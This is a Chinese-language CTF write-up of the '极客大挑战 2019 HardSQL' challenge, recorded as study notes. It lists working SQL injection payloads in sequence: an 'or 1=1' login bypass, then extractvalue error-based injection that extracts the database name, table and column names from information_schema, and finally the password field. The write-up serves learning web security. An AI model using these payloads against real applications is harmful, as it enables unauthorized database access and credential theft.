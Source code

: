 # [极客大挑战 2019]HardSQL（学习）
![](<./img/Pasted image 20221106102433.png>)

![](<./img/Pasted image 20221106102446.png>)
```sql
?username=admin&password=1' or 1=1 or '1
```
![](<./img/Pasted image 20221106102957.png>)

这里引入了一个新的概念：**报错注入**

![](<./img/Pasted image 20221106103349.png>)

```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(database()))))#
```
![](<./img/Pasted image 20221106104824.png>)

爆表
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#
```
![](<./img/Pasted image 20221106105754.png>)

爆字段
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#
```
![](<./img/Pasted image 20221106110012.png>)

成功近在咫尺
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(password)from(geek.H4rDsq1))))#
```
![](<./img/Pasted image 20221106110239.png>)

貌似是错误信息限制了长度
```sql
username=admin&password=1'^extractvalue(1,concat(0x5c,(select(right(password,30))from(geek.H4rDsq1))))#
```
![](<./img/Pasted image 20221106110613.png>)

#Web #SQL注入 #报错注入 